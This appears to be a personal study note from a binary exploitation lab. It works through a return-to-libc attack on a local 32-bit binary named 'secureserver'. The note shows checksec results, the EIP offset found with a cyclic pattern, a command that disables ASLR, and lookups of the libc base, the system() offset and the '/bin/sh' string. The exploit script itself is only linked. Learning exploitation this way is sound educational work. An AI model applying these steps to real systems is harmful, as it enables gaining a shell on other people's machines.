 [[Binary Exploitation/06 return to libc/x86/Source Code|Source Code]]

### File Checks

1. File -> `./secureserver: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=ba7b32f02b9ce5948bcb57c33599de4ad17682de, for GNU/Linux 3.2.0, not stripped`
2. checksec ->
```python
[*] '/root/binary_exploitation/06/32/secureserver'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

### Manual Work

Find the EIP offset using GDB

```python
cyclic 100
gdb-pwndbg ./secureserver
```

Result:

```python
*EAX  0xffffcea0 ◂— 'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'
*EBX  0x61616172 ('raaa')
*ECX  0xf7e1e9c4 (_IO_stdfile_0_lock) ◂— 0x0
*EDX  0x1
*EDI  0xf7ffcb80 (_rtld_global_ro) ◂— 0x0
*ESI  0x8049230 (__libc_csu_init) ◂— push ebp
*EBP  0x61616173 ('saaa')
*ESP  0xffffcef0 ◂— 'uaaavaaawaaaxaaayaaa'
*EIP  0x61616174 ('taaa')
```

Offset: `76`

Now to find the address of the libc binary for locally only we can use the following to turn of aslr which changes the assigned address for the libc binary

```python
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

Now we can do:

```python
ldd ./secureserver
```

^5a9d22

Result:
```python
linux-gate.so.1 (0xf7fc7000)
libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xf7c00000)
/lib/ld-linux.so.2 (0xf7fc9000)
```

Now we know the base address of the libc binary

We now need to find the offsets of the functions inside of libc
So we need the system which we can find using

```python
readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system
```

^a65e5c

Result:

```python
3172: 0004c800    55 FUNC    WEAK   DEFAULT   15 system@@GLIBC_2.0
```

Now we need the string /bin/sh from the libc

```python
strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep '/bin/sh'
```

^52a3ac

Result:

```python
1b5faa /bin/sh
```

Now we can assemble the python script

[[Binary Exploitation/06 return to libc/x86/Python Script|Python Script]]